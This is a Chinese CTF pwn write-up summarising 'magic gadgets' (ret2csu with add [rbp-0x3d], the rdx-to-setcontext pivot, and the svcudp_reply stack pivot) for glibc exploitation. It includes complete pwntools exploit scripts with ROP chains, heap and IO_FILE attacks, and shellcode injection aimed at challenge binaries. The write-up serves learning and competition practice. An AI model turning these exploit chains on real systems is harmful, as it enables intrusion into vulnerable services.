




magic\_gadget总结及利用1

- - -

# magic\_gadget总结及利用1

# 前言

这次鹏程杯的pwn题又有好多新的知识，做题过程中遇到了magic\_gadget的使用，所以来总结一下学习以来遇到的magic\_gadget，后面也会根据学习进度更新

# magic\_gadget

什么是magic\_gadget？实际上是pwn攻击中一些具有奇妙功效的gadget，它们功能各异，但是应用在pwn的payload构造中往往是一个与众不同但有方便快捷的构造方式

# magic1：add dword ptr \[rbp - 0x3d\], ebx ; nop ; ret

这个gadget的功能不难理解，就是将**ebx寄存器**中的值加到**rbp-0x3d**的位置上，乍一看似乎很难用，需要控制rbp和ebx才能实现半个任意地址写的功能，但是在ROP中有一个很高效使用的方法控制这两个寄存器：ret2csu，先让我们复习一下：

```plain
.text:000000000040059A                 pop     rbx
.text:000000000040059B                 pop     rbp
.text:000000000040059C                 pop     r12
.text:000000000040059E                 pop     r13
.text:00000000004005A0                 pop     r14
.text:00000000004005A2                 pop     r15
.text:00000000004005A4                 retn
```

在这里我们可以很轻易的控制rbx和rbp，再通过这个magic\_gaadget这样就能实现一个任意地址写了

## 应用：2023鹏程杯silent

#### ida

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[64]; // [rsp+10h] [rbp-40h] BYREF

  init_seccomp(argc, argv, envp);
  alarm(0x1Eu);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  read(0, buf, 0x100uLL);
  return 0;
}
```

```plain
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/root/Desktop/sli/silent'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

没有输出函数，开启了full relro，只有一个孤零零的栈溢出

这样似乎陷入了一个困境，没有输出函数就无法泄露libc地址，full relro又无法利用ret2dlsolve，这对于一些pwn栈漏洞知识掌握不深的师傅（没错就是我）似乎就没办法进行攻击了，后来经过其他师傅提醒到了这个magic\_gadget

#### 利用思路

虽然got表是不可写了，但是并不意味着其他地方就不储存函数地址了，比如在bss段上就储存了一些地址

```plain
bss:0000000000601020                               public stdout@@GLIBC_2_2_5
.bss:0000000000601020                               ; FILE *stdout
.bss:0000000000601020 ?? ?? ?? ?? ?? ?? ?? ??       stdout@@GLIBC_2_2_5 dq ?                ; DATA XREF: LOAD:00000000004003C8↑o
.bss:0000000000601020                                                                       ; main+46↑r
.bss:0000000000601020                                                                       ; Alternative name is 'stdout'
.bss:0000000000601020                                                                       ; Copy of shared data
.bss:0000000000601028 ?? ?? ?? ?? ?? ?? ?? ??       align 10h
.bss:0000000000601030                               public stdin@@GLIBC_2_2_5
.bss:0000000000601030                               ; FILE *stdin
.bss:0000000000601030 ?? ?? ?? ?? ?? ?? ?? ??       stdin@@GLIBC_2_2_5 dq ?                 ; DATA XREF: LOAD:0000000000400410↑o
.bss:0000000000601030                                                                       ; main+28↑r
.bss:0000000000601030                                                                       ; Alternative name is 'stdin'
```

还有gadget

```plain
0x00000000004007e8 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
```

那么我们的思路就是利用ret2csu和magic\_gadget将stdout改成一个输出函数的地址进行调用就可以泄露libc了

题目给了libc版本为2.27，可以利用libc文件查找相对偏移

构造如下

```plain
def csu(rbx, rbp, r12, r15, r14, r13, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call()
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    # csu(0, 1, fun_got, rdx, rsi, rdi, last)
​    payload = ""
​    payload += p64(csu_end_addr) 
​    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
​    payload += p64(csu_front_addr)
​    payload += p64(0)+p64(0xffffffffffd24620-0xd80+0xf0)+p64(0x601020+0x3d)+p64(read_got)*4
​    payload += p64(last)   
​    return payload

pl=p64(read_got)*8+p64(bss)
pl+=csu(0, 1, read_got, 0x100, elf.bss()+0x100, 0,magic_gadget)+p64(0x400788)+p64(elf.bss()+0x300)+p64(0x4008DC)
```

效果：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231105004716-cf8c7668-7b31-1.png)

接下来直接orw构造链就好了

完整exp如下：

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./silent')
#p = remote('172.10.0.8', 9999)
libc=ELF('./libc-2.27.so')
elf=ELF('./silent')

def duan():
    gdb.attach(p)
    pause()

vul=0x4006A0

#0x00000000004007e8 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret

magic_gadget=0x00000000004007e8
read_got=0x600FE0

bss=elf.bss()
leak('bss',bss)

bss=0x601200
csu_end_addr=0x40095A
csu_front_addr=0x400940
rdi = 0x400963
rsi = 0x400961 
ret = 0x400696 
def csu(rbx, rbp, r12, r15, r14, r13, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call()
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    # csu(0, 1, fun_got, rdx, rsi, rdi, last)
    payload = ""
    payload += p64(csu_end_addr) 
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_front_addr)
    payload += p64(0)+p64(0xffffffffffd24620-0xd80+0xf0)+p64(0x601020+0x3d)+p64(read_got)*4
    payload += p64(last)    
    return payload


pl=p64(read_got)*8+p64(bss)
pl+=csu(0, 1, read_got, 0x100, elf.bss()+0x100, 0, magic_gadget)+p64(0x400788)+p64(elf.bss()+0x300)+p64(0x4008DC)#+p64(0x400788)+p64(elf.bss()+0x300)#+csu(0,1,0x601020,0x40,elf.got['read'],1,)

sl(pl)

#sl('a')
s('./flag\x00')
duan()
pl2 = '\x00'*0x48+csu(0,1,0x601020,0x50,elf.got['read'],1,0x4008DC)
s(pl2)


read_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(read_addr))

libc_base = read_addr - libc.sym["read"]
print(hex(libc_base))
system = libc_base + libc.symbols['system']
binsh = libc_base+next(libc.search(b"/bin/sh\x00"))
openn = libc_base + libc.symbols['open']
read = libc_base + libc.symbols['read']
write = libc_base + libc.symbols['write']
rdx = libc_base+0x1b96
rsi = libc_base+0x023a6a


pl3 = '\x00'*0x48+p64(rdi)+p64(elf.bss()+0x100)+p64(rsi)+p64(0)+p64(rdx)+p64(0)+p64(openn)+p64(rdi)+p64(3)+p64(rsi)+p64(elf.bss()+0x400)+p64(rdx)+p64(0x50)+p64(read)+p64(rdi)+p64(1)+p64(rsi)+p64(elf.bss()+0x400)+p64(rdx)+p64(0x50)+p64(write)#+p64()+p64()+p64()+p64()+p64()+p64()+p64()+p64()+p64()+p64()+p64()


sl(pl3)

itr()
```

还有类似gadget：

```plain
adc DWORD PTR [rbp+0x48],edx
```

上述利用参考：[BUUCTF\_de1ctf\_2019\_unprintable - ZikH26 - 博客园 (cnblogs.com)](https://www.cnblogs.com/ZIKH26/articles/16167705.html)

# magic2：mov rdx, qword ptr \[rax + 0x38\]; mov rdi, rax; call qword ptr \[rdx + 0x20\];

这段gadget作用很明显，实现的是将rdx与rdi进行转换

这段gadget在栈漏洞中似乎找不到用武之地，但是他是堆漏洞中很常用的一个gadget

## 利用场景

在高版本的堆利用pwn题中有时会出现题目开启了沙箱的情况，setcontext 的代码发生了变化，不再是使用 `rdi` 而是使用了 `rdx`，这个时候往往需要利用控制寄存器rdx通过`setcontext + 61`来进行orw链的调用

```plain
pwndbg> x/gi &setcontext+0x61
   0x7f64a0f6ef5d <setcontext+61>:  mov    rsp,QWORD PTR [rdx+0xa0]
   0x7f64a0f6ef64 <setcontext+68>:  mov    rbx,QWORD PTR [rdx+0x80]
   0x7f64a0f6ef6b <setcontext+75>:  mov    rbp,QWORD PTR [rdx+0x78]
   0x7f64a0f6ef6f <setcontext+79>:  mov    r12,QWORD PTR [rdx+0x48]
   0x7f64a0f6ef73 <setcontext+83>:  mov    r13,QWORD PTR [rdx+0x50]
   0x7f64a0f6ef77 <setcontext+87>:  mov    r14,QWORD PTR [rdx+0x58]
   0x7f64a0f6ef7b <setcontext+91>:  mov    r15,QWORD PTR [rdx+0x60]
```

看着是不是很熟悉？这基本上就是ret2csu的翻版，利用这个位置的代码需要我们控制rdx寄存器的数据，但函数中最常见的一般只有pop rdi；ret，那么再通过这个gadget就能实现rdi-->rdx的调换以执行orw链

## 应用：西湖论剑2021-TinyNote

参考文章：[西湖论剑2021-TinyNote 题解-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/260059)

因为主要是讲解magic\_gadget，所以题目前的堆风水构造就不详细说明，具体参考以上链接

在这道题里面，我们通过将gadget放入劫持后的freehook然后利用setcontext+0x61执行其中的gadget，此时我们需要先想办法修改 rdx，那么就要用到这个magic\_gadget了

然后我们可以发现，free的参数是放在rdi中的，也就是 `_IO_base_buf`。在这个利用中，这里存储的是 `heap_addr+0x240` 的地址，因此，我们就可以在 `heap+0x240` 中存放一个合适的地址，使其满足以下条件：

```plain
[rdx+0x20] ----> setcontext+61
[rdx+0xa0] ----> 我们劫持的栈帧
[rdx+0xa8] ----> 第一条 ROP 指令
```

这里挑选的 `rdx` 值为 `heap+0x40`，因为这个位置及不会影响 `0x20` 的 `tcachebin`，也不会影响后续存放 `ROP` 链，以及最终劫持 `__free_hook` 所需的 `tcache bin`。接下来将这些值一个个插入进去就能够完成构造。

完整exp：

```plain
#encoding:utf-8
from pwn import *
import re

ip = '82.157.6.175'
port = 24200 
local = 0
filename = './TinyNote'
PREV_INUSE = 0x1
IS_MMAPPED = 0x2
NON_MAIN_ARENA = 0x4

def create_connect():
    global io, elf, libc, libc_name

    elf = ELF(filename)
    context(os=elf.os, arch=elf.arch)

    if local:
        io = process(filename)
        if elf.arch == 'amd64':
            libc_name = '/lib/x86_64-linux-gnu/libc.so.6'
        elif elf.arch == 'i386':
            libc_name = '/lib/i386-linux-gnu/libc.so.6'
    else:
        io = remote(ip, port)
    try:
        libc_name = 'libc-2.33.so'
        libc = ELF(libc_name)
    except:
        pass

cc = lambda : create_connect()
s = lambda x : io.send(x)
sl = lambda x : io.sendline(x)
sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)
g = lambda x: gdb.attach(io, x)

r = lambda : io.recv(timeout=1)
rr = lambda x: io.recv(x, timeout=1)
rl = lambda : io.recvline(keepends=False)
ru = lambda x : io.recvuntil(x)
ra = lambda : io.recvall(timeout=1)
it = lambda : io.interactive()
cl = lambda : io.close()

def add(idx):
    sa(b'Choice:', b'1')
    sa(b'Index:', str(idx).encode())


def edit(idx, content):
    sa(b'Choice:', b'2')
    sa(b'Index:', str(idx).encode())
    sa(b'Content:', content.encode() if isinstance(content, str) else content)

def show(idx):
    sa(b'Choice:', b'3')
    sa(b'Index:', str(idx).encode())
    ru(b'Content:')

def delete(idx):
    sa(b'Choice:', b'4')
    sa(b'Index:', str(idx).encode())

def mchunk_size(size):
    return p64(0) + p64(size)

def pwn():
    cc()

    add(0)
    add(1)
    delete(0)
    show(0)
    heap_addr = u64(rr(5).ljust(0x8, b'\x00')) << 12
    log.success('heap_addr: 0x%x', heap_addr)

    # 提前记录好 _IO_buf_base 和 _IO_buf_end 的相关参数
    length = 0x240
    start = heap_addr + 0x240 
    end = start + ((length) - 100)//2

    delete(1)
    poc = ((heap_addr+0x2c0) >> 12) ^(heap_addr+0x50)
    edit(1, p64(poc))
    add(0)
    add(1)
    # 修改 0x240 的 tcache 数量，并构造好首部
    edit(1, p8(8)*8 + p64(0x241))
    delete(0)

    add(0)
    add(1)
    delete(0)
    delete(1)
    # 将 fd 指向刚刚构造好的 0x240 chunk
    poc = ((heap_addr+0x2e0)>>12) ^ (heap_addr+0x60)
    edit(1, p64(poc))
    add(1)
    add(0) # unsorted_chunk: heap+0x10
    log.success('unsorted_chunk: 0x%x', heap_addr+0x60)
    delete(1)

    add(1)
    edit(1, mchunk_size(0x21))
    add(1)
    edit(1, mchunk_size(0x451))
    for i in range(0x22):
        add(1)

    add(1)
    add(2)
    delete(1)
    delete(2)
    poc = ((heap_addr+0x780)>>12) ^ (heap_addr+0x310)
    edit(2, p64(poc))
    add(2)
    # 获得第一块 largebin_chunk，地址为 heap+0x300
    add(1) 
    log.success('large chunk No.1: 0x%x', heap_addr+0x300)
    delete(2)

    add(2)
    edit(2, mchunk_size(0x21))
    add(2)
    edit(2, mchunk_size(0x441))
    add(2)
    add(2)
    # 这里提前将 _IO_buf_end 的值填上
    edit(2, p64(end))
    for i in range(0x1f):
        add(2)
    add(2)
    edit(2, mchunk_size(0x31))
    add(2)

    delete(0)
    show(0)
    libc.address = u64(rr(8)) - 0x1e0c00
    log.success('libc_addr: 0x%x', libc.address)
    _IO_list_all = libc.sym['_IO_list_all']
    _IO_str_jumps = libc.address + 0x1e2560
    free_hook = libc.address + 0x1e3e20
    _IO_str_overflow = libc.address + 0x8fbb0
    setcontext = libc.address + 0x529ad
    # 0x000000000014a0a0 : mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]
    hijack_rsp = libc.address + 0x14a0a0
    # 0x0000000000028a55 : pop rdi ; ret
    pop_rdi = libc.address + 0x28a55
    # 0x000000000002a4cf : pop rsi ; ret
    pop_rsi = libc.address + 0x2a4cf
    # 0x00000000000c7f32 : pop rdx ; ret
    pop_rdx = libc.address + 0xc7f32
    # 0x0000000000044c70 : pop rax ; ret
    pop_rax = libc.address + 0x44c70
    # 0x000000000006105a: syscall; ret;
    syscall = libc.address + 0x6105a
    # 0x59020 : mov rsp, rdx ; ret
    mov_rdx_rsp = libc.address + 0x59020
    # 0x0000000000033af2 : pop rsp ; ret
    pop_rsp = libc.address + 0x33af2
    ret = libc.address + 0x26699

    mprotect = libc.sym['mprotect']
    new_stack = libc.bss()
    read_buf = libc.bss() + 0x200


    add(0)
    delete(0)
    delete(2)
    # heap_addr + 0x60 对应 [rdx + 0x20] 的位置，放置 setcontext+61 的地址
    edit(0, p64(setcontext))
    poc = ((heap_addr+0xc00)>>12)^((heap_addr+0x7b0))
    edit(2, p64(poc))
    add(0)
    # 获得第二块 largebin_chunk，地址为 heap+0x300
    add(2)
    log.success('large chunk No.2: 0x%x', heap_addr+0x7a0)
    delete(0)

    delete(1)

    add(0)
    # 第一个 large chunk 入链
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x80)>>12)^((heap_addr+0x320))
    edit(1, p64(poc))
    add(0)
    add(1)
    target = _IO_list_all - 0x20
    # 布置好 largebin attack 使用的 Poc
    edit(1, p64(heap_addr+0x300)+p64(target))
    delete(0)
    delete(2)

    add(0)
    # 第二个 large chunk 入链，写入 _IO_list_all
    add(0)
    edit(1, p64(heap_addr+0x300)+p64(heap_addr+0x300))
    edit(2, p64(0)+p64(0))


    add(0)
    add(1)
    delete(1)
    # heap_addr + 0xe0 -----> mov rsp, [rdx + 0xa0]
    # heap_addr + 0xe8 -----> mov rcx, [rdx + 0xa8]; push rcx
    # 这里我们就可以放入第一条 ROP 指令
    edit(1, p64(heap_addr+0x1c0)+p64(pop_rdi))
    delete(0)
    poc = ((heap_addr+0xe0)>>12) ^ (heap_addr+0x870)
    edit(0, p64(poc))
    add(0)
    add(1)
    # 修改 FAKE IO_FILE 的 vtable 为 _IO_str_jumps
    edit(1, p64(0)+p64(_IO_str_jumps))
    delete(0)

    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x100)>>12) ^ (heap_addr+0x7d0)
    edit(1, p64(poc))
    add(0)
    add(1)
    # 填充 FAKE IO_FILE，写入 _IO_buf_base
    edit(1, p64(0) + p64(start))
    delete(0)

    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x120)>>12) ^ (heap_addr+0x7f0)
    edit(1, p64(poc))
    add(0)
    add(1)
    # 填充 FAKE IO_FILE
    edit(1, p64(0) + p64(0))
    delete(0)

    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x140)>>12) ^ (heap_addr+0x810)
    edit(1, p64(poc))
    add(0)
    add(1)
    # 填充 FAKE IO_FILE
    edit(1, p64(0) + p64(0))
    delete(0)

    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x160)>>12) ^ (heap_addr+0x830)
    edit(1, p64(poc))
    add(0)
    add(1)
    # 填充 FAKE IO_FILE
    edit(1, p64(0) + p64(0))
    delete(0)

    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x180)>>12) ^ (heap_addr+0x850)
    edit(1, p64(poc))
    add(0)
    add(1)
    edit(1, p64(0) + p64(0))
    delete(0)
    add(2)
    add(2)
    edit(2, p64(0)+p64(free_hook))

    # heap_addr + 0x1c0
    add(0)
    add(1)
    delete(0)

    # heap_addr + 0x1c0: 0, pop rsi
    edit(0, p64(0)+p64(pop_rsi)) 
    delete(1)
    poc = ((heap_addr+0x1e0)>>12) ^ (heap_addr+0x1d0)
    edit(1, p64(poc))
    add(0)
    # heap_addr + 0x1e0: 0x100, &read
    edit(0, p64(0x100)+p64(libc.sym['read'])) 
    add(1)
    # heap_addr + 0x1d0: new_stack, pop rdx
    edit(1, p64(new_stack)+p64(pop_rdx)) 

    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x220)>>12) ^ (heap_addr+0x1f0)
    edit(1, p64(poc))
    add(1)
    add(2)
    # heap_addr + 0x1f0: pop rsp, &new_stack
    edit(2, p64(pop_rsp)+p64(new_stack))
    edit(1, p64(new_stack))

    add(0) # heap_addr + 0x240
    edit(0, p64(hijack_rsp)+p64(heap_addr+0x40)) 
    # 第一个对应的就是拷贝到 free_hook 的 gadget 地址，执行 gadget
    # 第二个对应的就是 mov rdx, qword ptr [rdi+8]

    add(1)
    add(2)
    delete(1)
    delete(2)
    poc = ((heap_addr+0x280)>>12) ^ (free_hook)
    edit(2, p64(poc))
    add(1)

    add(2)

    filename_addr = new_stack + 0x8 * 27
    # 第一段 ROP：执行 mprotect，将 heap 内存区域变成 RWX
    poc = b''
    poc += p64(pop_rdi)
    poc += p64(heap_addr)
    poc += p64(pop_rsi)
    poc += p64(0x4000)
    poc += p64(pop_rdx)
    poc += p64(7)
    poc += p64(libc.sym['mprotect'])

    # 第二段 ROP：将 shellcode 写入 heap 并跳转执行
    poc += p64(pop_rdi)
    poc += p64(0)
    poc += p64(pop_rsi)
    poc += p64(heap_addr)
    poc += p64(pop_rdx)
    poc += p64(0x100)
    poc += p64(libc.sym['read'])
    poc += p64(heap_addr)
    s(poc)

    # 获取 flag 文件名
    shellcode = b''
    shellcode += asm(shellcraft.open('./'))
    shellcode += asm(shellcraft.getdents64(3, read_buf, 0x400))
    shellcode += asm(shellcraft.write(1,read_buf, 0x400))
    shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (heap_addr+0x100))

    s(shellcode)
    if local:
        r()
        filename = '/flag'
    else:
        ru(b'haha_')
        filename = 'haha_'+rr(10).decode()
        r()
        r()

    shellcode = asm(shellcraft.cat(filename))
    s(shellcode)
    log.success('flag: %s', ru(b'}').decode())
    cl()

if __name__ == '__main__':
    pwn()
```

# magic3：

```plain
<svcudp_reply+26>:  mov  rbp,QWORD PTR [rdi+0x48]
<svcudp_reply+30>:  mov  rax,QWORD PTR [rbp+0x18]
<svcudp_reply+34>:  lea  r13,[rbp+0x10]
<svcudp_reply+38>:  mov  DWORD PTR [rbp+0x10],0x0
<svcudp_reply+45>:  mov  rdi,r13
<svcudp_reply+48>:  call  QWORD PTR [rax+0x28]
```

-   `mov rbp, QWORD PTR [rdi+0x48]` 从`rdi+0x48`地址处加载一个64位值到`rbp`寄存器中。
-   `mov rax, QWORD PTR [rbp+0x18]` 从`rbp+0x18`地址处加载一个64位值到`rax`寄存器中。
-   `lea r13, [rbp+0x10]` 计算`rbp+0x10`的地址并将其存储到`r13`寄存器中。
-   `mov DWORD PTR [rbp+0x10], 0x0` 将值`0`存储到`rbp+0x10`地址处的32位内存中。
-   `mov rdi, r13` 将`r13`的值存储到`rdi`寄存器中。
-   `call QWORD PTR [rax+0x28]` 调用`rax+0x28`地址处存储的函数，将函数的返回地址存储在程序的调用栈中

这段汇编代码提供了一个类似与栈迁移的效果，具体来说是通过控制rdi来控制rbp的值从而实现此效果，是高版本堆利用orw的另一种常用的调用链

## 应用：House of apple2 orw

-   \### ida
    
-   ```plain
    int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
    {
      int v2; // [rsp+4h] [rbp-Ch]
    
      ready();
      while ( 1 )
      {
        do
        {
          while ( 1 )
          {
            menu();
            v2 = my_read();
            if ( v2 != 4 )
              break;
            edit();
          }
        }
        while ( v2 > 4 );
        if ( v2 == 3 )
        {
          show();
        }
        else if ( v2 <= 3 )
        {
          if ( v2 == 1 )
          {
            add();
          }
          else if ( v2 == 2 )
          {
            delete();
          }
        }
      }
    }
    ```
    

-   增删查改四个功能都有
    
-   ```plain
    if ( size > 0x550 || size <= 0x41F )
     {
       puts("size error!");
       exit(0);
     }
    ```
    
-   其中add功能只能add largebin chunk
    
-   free功能里有UAF漏洞
    
-   ```plain
    if ( index <= 0x20 && pwn_ptr[index] )
          free(pwn_ptr[index]);
    ```
    
-   并且开启了沙箱
    

那么利用House of apple2的思想劫持IO\_wide\_data来进行io流调用，gadget写在伪造的io\_file中

[](https://xzfile.aliyuncs.com/media/upload/picture/20231105004629-b40ba2ec-7b31-1.png)

那么当执行了magic\_gadget后

[](https://xzfile.aliyuncs.com/media/upload/picture/20231105004619-ae084206-7b31-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231105004624-b09ae118-7b31-1.png)

可以看到rbp和rsp迁移到了堆上执行了orw调用链

参考文章：[\[原创\] CTF 中 glibc堆利用 及 IO\_FILE 总结-Pwn-看雪-安全社区|安全招聘|kanxue.com](https://bbs.kanxue.com/thread-272098.htm#msg_header_h2_2)

# 总结

magic\_gadget是一个非常好用的小技巧，在栈和堆的攻击中都有不俗的效果，这些利用贵在学习中的不断积累，熟练掌握能够使pwn攻击更加快、准、狠。
